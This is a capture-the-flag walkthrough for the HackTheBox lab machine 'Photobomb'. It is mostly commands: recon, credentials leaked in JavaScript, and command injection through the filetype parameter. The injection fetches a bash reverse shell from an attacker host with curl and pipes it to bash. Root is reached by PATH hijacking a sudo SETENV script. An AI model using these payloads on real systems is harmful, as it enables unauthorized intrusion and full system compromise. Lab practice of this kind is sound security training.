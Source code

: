 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)](Easy)

## 🔍 Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.182
nmap -p 22,80 -sCV 10.10.11.182
```

### Host Mapping
```bash
echo "10.10.11.182 photobomb.htb" | sudo tee -a /etc/hosts
```

### Fuzz for Subdomains
```bash
ffuf -u http://10.10.11.182 -H "Host: FUZZ.photobomb.htb" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

---

## 🌐 [Website Enumeration](HTTP)

### Locate JavaScript with Creds
Check source for:
```html
<script src="/static/photobomb.js"></script>
```

Look for:
```js
// Jameson: pre-populate creds for tech support...
'href','http://pH0t0:b0Mb!@photobomb.htb/printer'
```

### Feroxbuster Directory Scan
```bash
feroxbuster -u http://photobomb.htb -x php,html,txt \
-w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```

---

## ⚙️ Authenticated Image Panel

### Example POST Request for Image Processing
```http
POST /printer HTTP/1.1
Authorization: Basic cEgwdD...==  # Base64 of pH0t0:b0Mb!
Content-Type: application/x-www-form-urlencoded

photo=wolfgang.jpg&filetype=png&dimensions=1000x1000
```

---

## 💣 Command Injection via filetype Parameter

### POC: Confirm Injection
```bash
filetype=png;sleep+5
```

### Reverse Shell Payload
Start a listener:
```bash
nc -lnvp 443
```

Host this on your webserver as `shell.sh`:
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.6/443 0>&1
```

Send payload:
```http
filetype=png;curl+10.10.14.6/shell.sh|bash
```

---

## 🧑‍💻 Shell as `wizard`

### Stabilize Shell
```bash
script /dev/null -c bash
# CTRL+Z
stty raw -echo; fg
reset
export TERM=screen
```

---

## 🚀 Privilege Escalation to Root

### Check Sudo Rights
```bash
sudo -l
# Output:
# (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

### Review `/opt/cleanup.sh`
```bash
cat /opt/cleanup.sh
```

Notable line:
```bash
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

---

## 🔓 Privesc Option 1 – PATH Hijack

### Create Fake `find` in Current Directory
```bash
echo -e '#!/bin/bash\nbash' > find
chmod +x find
sudo PATH=$PWD:$PATH /opt/cleanup.sh
```

---

## 🔓 Privesc Option 2 – Bash Builtin `[`

### `.bashrc` disables builtin:
```bash
enable -n [  # disables Bash builtin [
```

### Exploit Disabled `[`
```bash
echo -e '#!/bin/bash\nbash' > [
chmod +x [
sudo PATH=$PWD:$PATH /opt/cleanup.sh
```

---

## 🏁 Flags

### User Flag
```bash
cat /home/wizard/user.txt
```

### Root Flag
```bash
cat /root/root.txt
```